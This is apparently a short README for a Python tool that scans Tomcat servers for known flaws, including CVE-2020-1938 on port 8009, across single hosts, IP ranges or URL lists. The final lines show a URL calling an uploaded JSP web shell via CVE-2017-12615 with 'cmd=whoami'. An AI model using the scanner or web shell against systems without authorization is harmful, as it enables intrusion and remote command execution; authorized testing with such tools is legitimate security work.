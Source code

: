 # Tomcatscan
Tomcat common vulnerability detection

python3 Tomcatscan.py -u xxx -p xx  //对指定端口进行漏洞探测，同时会检测8009端口cve-2020-1938漏洞

python TomcatScan.py -H 192.168.1.1-192.168.2.255 //默认检测8080，8081，80，443，8009端口，如需深入探测，可以先利用信息收集工具收集tomcat url保存到文件中后通过 -f参数检测

python TomcatScan.py -f url.txt
#-f 参数 文件中ip的几种格式：
http://192.168.1.1:8080 ##检测8080端口，同时检测8009端口是否存在cve_2020_1938
http://192.168.1.1          ##检测80端口和443端口，同时检测8009端口是否存在cve_2020_1938
https://192.168.1.1        ##检测80端口和443端口，同时检测8009端口是否存在cve_2020_1938
192.168.1.1                   ##检测80端口和443端口，同时检测8009端口是否存在cve_2020_1938
192.168.1.1:8080         ##检测8080端口和443端口，同时检测8009端口是否存在cve_2020_1938

cve-2017-12615

访问并执行命令
http://192.168.3.137:8080/1635405387.jsp?&pwd=023&cmd=whoami
